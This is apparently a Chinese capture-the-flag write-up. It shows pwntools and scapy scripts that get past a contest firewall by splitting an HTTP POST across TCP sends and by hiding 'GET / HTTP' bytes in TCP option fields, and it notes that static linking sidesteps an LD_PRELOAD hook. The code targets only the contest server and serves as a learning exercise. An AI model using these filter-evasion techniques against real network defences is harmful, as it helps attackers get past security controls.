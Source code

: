 ```python
from pwn import *
r=remote("202.38.93.111",18080)  # 18081 is ok
r.send(b'P')
r.send(b'OST / HTTP/1.1\r\nHost: 202.38.93.111:18080\r\nUser-Agent: curl/7.81.0\r\nAccept: */*\r\nContent-Length: 99\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nyourtoken')
ans=r.recv()
print(ans)
```

### 我的 GET

第三问，做了两条过滤要求，由于过滤的规则，满足第一条即可。

就是说这个所有的数据包前 50 字节必须带有 `GET / HTTP` 。已知 IP + TCP 的头部已经 40 字节。

首先我很直球的在数据部分开始带上了 `GET / HTTP` ，后面继续跟我的 POST，但未果，因为似乎在 HTTP1 中规定的请求响应模式都是 1 对 1 的。数据部分解析完一个 GET 请求估计就会把剩下的 POST 请求当作 http 的 data，然后就烂了，未指定 content-length 估计就是 400，指定了也无法达到 POST 的效果。

于是开始想在头部插入，我是在 TCP 头部 的 `option` 字段 插入的，直接将这部分作为 option，开始有点担心不能被 tcp 协议栈识别所拒绝，发现不被协议识别也是可以的，就是他不理解比如 `option` 字段的第一个字节， `kind=int('G')` 代表什么 tcp option，实践发现也是允许的。通过 offset 指定 data 段的开始即可。

对于数据包的定制，使用 scapy 进行了模拟，感受到了 scapy 的强大，真正模拟定制了三次握手。

```python
myseq=1111
first=IP(dst='202.38.93.111')/TCP(seq=myseq,flags='S',sport=61000,dport=18082,dataofs=8)/"GET / HTTPXX"  # dataofs 指定数据部分的开始的字，实际乘*4

second=sr1(first)
second.show2()

myack=second[TCP].seq
third=IP(dst='202.38.93.111')/TCP(seq=myseq+1,ack=myack+1,window=65535,flags='A',sport=61000,dport=18082,dataofs=8)/"GET / HTTPXX"
send(third)
# res2.show2()

http=IP(dst='202.38.93.111')/TCP(seq=myseq+1,ack=myack+1,window=65535,flags='PA',sport=61000,dport=18082,dataofs=8)/"GET / HTTPXX"/"POST / HTTP/1.1\r\nHost: 202.38.93.111:18082\r\nUser-Agent: curl/7.81.0\r\nAccept: */*\r\nContent-Length: 99\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nyourtoken"
r,u=sr(http,multi=True)  # 这样能够接收多个数据包，sr1 只能接受第一个只含 tcp 的数据包

r[0][1].summary # 一个 tcp 数据包
r[1][1].summary # 包含 http 请求的数据包
```

## 为什么要打开 /flag

### LD_PRELOAD, love!

通过改变 `ld_preload` 影响链接的库函数，只关系动态链接，于是静态链接即可。
